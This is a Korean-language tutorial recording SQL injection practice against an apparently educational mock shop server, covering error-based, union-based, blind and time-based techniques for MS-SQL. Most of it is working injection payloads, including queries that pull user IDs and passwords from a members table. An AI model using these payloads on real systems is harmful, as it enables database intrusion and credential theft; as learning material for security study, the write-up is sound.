









SQL Injection을 통해 Database에게 질의를 해보자

# 1. 서론

 SQL Injection을 공부 할 때 BeeBox, [SQLtest.net](https://sqltest.net) 등을 이용하여 공부를 해보았다. 이번에는 `Oyesmall` 이라 불리는 교육 목적의 모스킹 서버를 통해 실습을 한다.

### SQLi 종류

 더욱 많은 종류가 있지만 이번에 실습할 것은 다음과 같다. 아주 아주 간략하게 한번 코멘트도 달아보았다.

- Error-based Sqli
  - Error를 유도하여 return 되는 정보 기반으로 정보 수집

- Union-based Sqli
  - Column 수가 같을 경우 2개 이상의 쿼리를 요청해 정보를 수집

- Blind-based Sqli
  - True/False 를 기반으로 정보를 수집

- Time-based Sqli
  - Return 시간을 기반으로 정보를 수집


# 2. 실습

## 2-1. Error-based Sqli

 Error-based Sqli 는 MS-SQL 기반 시스템에게 적합하다. 이유는 MS-SQL의 경우 오류 발생 시 담아주는 정보가 많기 때문이다.

### Database 이름 추출

`db_name()`는 database의 이름 정보를 담고 있다. Error-based 이므로 string 형식의 database 이름과 int 형식을 비교하여 형 변환 오류를 이르키는 메커니즘 이다.

> 먼저, 하기 모든 code snipt 내의 **`** (Back quote) 문자는 **'** (Single quote) 문자이다.

```sql
` and db_name() > 1 --
```

 이 때 `'`가 안되는 경우 `"`를 이용한다. 또한 `--`는 MS-SQL 상에서 뒷 내용을 주석 처리를 하겠다는 의미이다. (`#` 등 다른 것도 존재)

<table style="text-align: center;">
  <tr>
    <th>
      
    </th>
    <th>
       
    </th>
  </tr>
  <tr>
    <td><b>&lt 그림. 0 &gt</b></td>
    <td><b>&lt 그림. 1 &gt</b></td>
  </tr>
</table>

| 종류          | 얻은 값  |
| ------------- | -------- |
| Database name | oyesmall |


### Table 이름 추출

```sql
` having 1=1 --
```



<center><b>< 그림. 2 ></b></center>

 `post2`는 table의 이름이며, `postNo`가 첫 column 이란걸 한번에 알 수 있다.

| 종류          | 얻은 값  |
| ------------- | -------- |
| Database name | oyesmall |
| Table name    | post2    |
| 1st column    | postNo   |

### 첫번째 이후 column 이름 추출

```sql
` group by {이전 컬럼명} --
` group by postNo --
` group by si --
```

<table style="text-align: center;">
  <tr>
    <th>
      
    </th>
    <th>
       
    </th>
  </tr>
  <tr>
    <td><b>&lt 그림. 3 &gt</b></td>
    <td><b>&lt 그림. 4 &gt</b></td>
  </tr>
</table>

| 종류          | 얻은 값  |
| ------------- | -------- |
| Database name | oyesmall |
| Table name    | post2    |
| 1st column    | postNo   |
| 2nd column    | si       |
| 3rd column    | gu       |

### Column 내 데이터 추출

```sql
` or 1 in (select {Column 이름} from {Table 이름}) --
-- Table 내 특정 column 내 첫번째 값을 가져옴

` or 1 in (select {Column 이름} from {Table 이름} where num > {int}) --
-- Table 내 특정 column 내 int 번째 값을 가져옴

` or 1 in (select {Column 이름} from {Table 이름} where {Column 이름} not in ('{값1}', '{값2}', ... '{값n}')) --
-- Table 내 특정 column 내 값1,2,...,n 을 제외한 가장 앞의 값을 가져옴 (int 번째 값을 가져오지 못하는 경우)

` or 1 in (select {Column 이름} from {Table 이름} where {Column 이름} like ('%{N}%')) --
-- Table 내 특정 column 내 N 문자가 포함된 가장 앞의 값을 가져옴
```



<center><b>< 그림. 5 ></b></center>

| 종류                 | 얻은 값  |
| -------------------- | -------- |
| Database name        | oyesmall |
| Table name           | post2    |
| 1st column           | postNo   |
| 2nd column           | si       |
| 3rd column           | gu       |
| 1st column, 1st data | 강남구   |

### 총 행 혹은 column 개수 구하기

```sql
` or 1 in (select 'a'+cast(count(*) as varchar(100)) from {Table 이름}) --
-- Table 내 데이터 행의 개수를 'a' 뒤에 붙여 string 으로 형변환 이후 int 형과 비교

` or 1 in (select 'a'+cast(count({Column 이름}) as varchar(100)) from {Table 이름}) --
-- Table 내 column의 개수를 'a' 뒤에 붙여 string 으로 형변환 이후 int 형과 비교
```



<center><b>< 그림. 6 ></b></center>

 중간 `cast()`를 통해 string의 SQL 식 형식인 `varchar` 식으로 바꿔준다.

## 2-2. Union-based Sqli

### Column 개수 찾기

```sql
` union select 1{,2,3,...,n} --
```



<center><b>< 그림. 7 ></b></center>

 1부터 n까지 순서대로 증가시키며 시도를 한다면 어느 순간 정상적으로 error 없이 페이지가 로드되는 것을 볼 수 있다. 이는 Column의 개수가 n 이라는 것이다.

```sql
` union select null, null, null, null --
```

 단, 이는 데이터의 type이 int 일 경우에 한한다. MS-SQL과 MySQL은 type이 좀 달라도 큰 문제가 없다. Orcale SQL의 경우 정확해야한다. 따라서 Oracle SQL의 경우 다음과 같이 `null`을 사용한다.

### 여러 정보를 갖고 있는 공통 Table/Column

- System Table
  - SYSOBJECT
    - Table 이름 데이터, 질의는 name으로 유도
  - SYSCOLUMNS
    - Column 이름 데이터, 질의는 name으로 유도
- User Table
  - information_schema.tables
    - table_name
  - information_schema.columns
    - column_name

```sql
` union select column_name,2,3,4,5 from information_schema.columns --
-- information_scema 로부터 column 이름 전체 가져오기
```



<center><b>< 그림. 8 ></b></center>

```sql
` union select 1,2,3,user_id,passwd from members --
```

 예시로 위와 같은 SQL문을 삽입 할 경우 계정 정보에도 접근이 가능하다. 또한 **< 그림. 8 >**에서 확인 가능 하듯 `adminid`와 `adminpwd` 등의 정보가 존재한다면 관리자 계정도 접근이 가능할 가능성이 높아진다.

## 2-3. Blind-based Sqli

 참/거짓을 이용 하여 정보를 유추하는 방법이다.

```sql
창녕읍` and 1=1 --
-- True 를 유도하는 SQL문
창녕읍` and 1=2 --
-- False 를 유도하는 SQL문
```

### `substring()` 메서드

```
substring({문자열}, {커서 위치 x}, {읽을 문자열 수 y})

substring('admin', 1, 3)
-- return: 'adm'
```

`substring('admin',1,1)` -> 첫번째 커서로부터 1글자를 의미. 결과는 `a`

```sql
창녕읍` and 'a' = substring((select top 1 user_id from members),1,1) --
-- members table의 user_id column 중 'a'로 시작하는 첫번째를 가져오기

창녕읍` and char(111) = substring((select top 1 user_id from members),1,1) --
창녕읍` and 111 = ascii(substring((select top 1 user_id from members),1,1)) --
-- 문자열 필터링이 걸려 있는 경우 위와 같이 ascii 코드를 이용하여 질의 가능
```

 단, `top `은 MS-SQL에서만 사용된다. MySQL이나 Oracle SQL의 경우 `limit`를 이용하여 질의가 가능하다.

## 2-4. Time-based Sqli

 Time-based Sqli 는 말 그대로 시간을 기반으로 값을 알아온다. 참/거짓을 서버의 결과 반환 시간을 기반으로 판단한다.

```sql
`; if 1=1 waitfor delay '0:0:5' --
-- 참이 될 경우 5초의 delay를 갖은 뒤 반환
`; if 'a'=substring((select top 1 user_id from members),1,1)
```

주로 브라우저의 개발자 도구의 성능 측정 도구를 사용하면 된다.
